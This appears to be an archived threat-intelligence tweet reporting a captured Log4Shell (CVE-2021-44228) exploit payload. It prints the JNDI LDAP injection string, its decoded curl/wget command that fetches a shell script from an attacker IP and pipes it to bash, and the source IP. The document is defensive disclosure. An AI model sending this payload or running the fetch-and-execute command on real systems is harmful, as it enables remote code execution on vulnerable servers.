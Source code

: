 
# bad_packets
**https://twitter.com/bad_packets/status/1469408389331488771 _at 2021-12-10, 20:47:14_**
<blockquote>
Example CVE-2021-44228 payload:
${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}

Decoded:
(curl -s 80.71.158.12/lh.sh||wget -q -O- 80.71.158.12/lh.sh)|bash

Source IP:
62.76.41.46 (🇷🇺) https://t.co/LKdaZ9Lfos
</blockquote>

<table><tr>
<td><img src="pictures/84a0b8af31d5d15d2bb059c69385b09d26a98d16aa2d04488e78eb27b27bb7a0.jpg" alt="84a0b8af31d5d15d2bb059c69385b09d26a98d16aa2d04488e78eb27b27bb7a0.jpg"></td>
